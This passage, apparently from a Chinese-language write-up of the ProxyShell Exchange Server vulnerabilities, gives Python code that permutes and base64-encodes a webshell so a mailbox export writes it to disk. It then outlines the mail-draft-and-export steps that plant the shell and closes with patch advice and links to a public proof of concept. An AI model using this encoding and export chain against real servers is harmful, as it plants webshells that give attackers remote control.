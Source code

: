     def cryptpermute(data, encrypt=False):    table = mpbbR if encrypt else mpbbI    tmp = [table[v] for v in data] if six.PY3 else [table[ord(v)] for v in data]    i = 0    buf = bytes(tmp) if six.PY3 else bytearray(tmp)    stream = BytesIO(buf)    while True:        b = stream.read(DWORD_SIZE)        try:            tmp[i] = b[0]            tmp[i + 1] = b[1]            tmp[i + 2] = b[2]            tmp[i + 3] = b[3]            i += DWORD_SIZE        except:            pass        if len(b) != DWORD_SIZE:            break  
        return bytes(tmp) if six.PY3 else ''.join(tmp)  
    if __name__ == "__main__":    webshell = b"d"    v1 = cryptpermute(webshell, False)    b64_data = base64.b64encode(v1).decode()    print("[+] Encode webshell ⬇\n{}\n".format(b64_data))  
        encode_shell = base64.b64decode(b64_data)    decode_shell = cryptpermute(encode_shell, True)    print("[+] Decode webshell ⬇\n{}\n".format(decode_shell.decode()))
    
    
      
    

content下内容为shell编码后再进行base64的内容

    
    
    再后续导出将会还原为原内容  
    

执行 保存邮件草稿请求 导出写shell

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093229.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093230.png)

  

查看文件  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093232.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210825093233.png)

  

 **0x06 修复方式**  
  
  
  

微软已发布上述3个高危漏洞的安全补丁，腾讯安全专家建议采用Exchange Server 的用户尽快升级修复。

  

    
    
     **参考链接：**

https://github.com/dmaasland/proxyshell-poc  

https://mp.weixin.qq.com/s/aEnoBvibp-gkt3qtcOXqAw

https://mp.weixin.qq.com/s/-qJh2u0mbrKWxWNCZgOrVw  

  
